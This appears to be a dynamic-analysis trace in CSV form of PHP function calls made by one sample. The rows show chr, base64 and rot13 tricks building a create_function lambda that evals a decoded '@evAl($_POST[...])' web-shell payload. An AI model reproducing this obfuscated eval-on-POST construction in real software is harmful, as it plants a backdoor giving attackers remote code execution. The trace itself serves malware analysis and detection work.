

The file beside this chart, header and first rows:
uuid, file_md5, index, source, target, argc, argv, return, dynamic
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 0, __main__, zend_compile_file, 2, {"value": []}, {"value": "02413C413C0804413C0802413C080…, []
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 1, __main__, chr, 1, {"value": [[0, "codepoint", 36]]}, {"value": "$"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 2, __main__, base64_decode, 1, {"value": [[0, "str", "cw=="]]}, {"value": "s"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 3, __main__, chr, 1, {"value": [[0, "codepoint", 111]]}, {"value": "o"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 4, __main__, chr, 1, {"value": [[0, "codepoint", 109]]}, {"value": "m"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 5, __main__, chr, 1, {"value": [[0, "codepoint", 101]]}, {"value": "e"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 6, __main__, str_rot13, 1, {"value": [[0, "str", "r"]]}, {"value": "e"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 7, __main__, str_rot13, 1, {"value": [[0, "str", "i"]]}, {"value": "v"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 8, __main__, chr, 1, {"value": [[0, "codepoint", 97]]}, {"value": "a"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 9, __main__, chr, 1, {"value": [[0, "codepoint", 108]]}, {"value": "l"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 10, __main__, chr, 1, {"value": [[0, "codepoint", 40]]}, {"value": "("}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 11, __main__, str_rot13, 1, {"value": [[0, "str", "$"]]}, {"value": "$"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 12, __main__, base64_decode, 1, {"value": [[0, "str", "cw=="]]}, {"value": "s"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 13, __main__, str_rot13, 1, {"value": [[0, "str", "b"]]}, {"value": "o"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 14, __main__, chr, 1, {"value": [[0, "codepoint", 109]]}, {"value": "m"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 15, __main__, chr, 1, {"value": [[0, "codepoint", 101]]}, {"value": "e"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 16, __main__, chr, 1, {"value": [[0, "codepoint", 41]]}, {"value": ")"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 17, __main__, chr, 1, {"value": [[0, "codepoint", 59]]}, {"value": ";"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 18, __main__, create_function, 2, {"value": [[0, "args", "$some"], [1, "co…, {"value": "\\x00lambda_1"}, [0, 0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 19, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 20, __main__, base64_decode, 1, {"value": [[0, "str", "VQ=="]]}, {"value": "U"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 21, __main__, chr, 1, {"value": [[0, "codepoint", 69]]}, {"value": "E"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 22, __main__, chr, 1, {"value": [[0, "codepoint", 57]]}, {"value": "9"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 23, __main__, chr, 1, {"value": [[0, "codepoint", 84]]}, {"value": "T"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 24, __main__, chr, 1, {"value": [[0, "codepoint", 86]]}, {"value": "V"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 25, __main__, base64_decode, 1, {"value": [[0, "str", "Rg=="]]}, {"value": "F"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 26, __main__, chr, 1, {"value": [[0, "codepoint", 116]]}, {"value": "t"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 27, __main__, chr, 1, {"value": [[0, "codepoint", 89]]}, {"value": "Y"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 28, __main__, str_rot13, 1, {"value": [[0, "str", "H"]]}, {"value": "U"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 29, __main__, base64_decode, 1, {"value": [[0, "str", "Mg=="]]}, {"value": "2"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 30, __main__, base64_decode, 1, {"value": [[0, "str", "Nzg3ODMxO0BldkFsK…, {"value": "787831;@evAl($_POST[XSlegPwY]…, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 31, __main__, __lambda_func, 1, {"value": [[0, "some", "787831;@evAl($_P…, {"value": "void"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 32, __lambda_func, eval, 1, {"value": [[0, "phpcode", "787831;@evAl(…, {"value": "void"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 33, eval, zend_compile_string, 2, {"value": [[0, "source_string", "787831;…, {"value": "39635051493A3E"}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 34, eval, zend_fetch_r_post, 1, {"value": [[0, "op1", "_POST"]]}, {"value": []}, [0]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 35, eval, eval, 1, {"value": [[0, "phpcode", "assert"]]}, {"value": "void"}, [130]
b6e0c1ea42fc3b1e3e7f92fe012e55ca, 8a7e4a789d0cd5187e186bfe57f37950, 36, eval, zend_compile_string, 2, {"value": [[0, "source_string", "assert"…, {"value": ""}, [130]
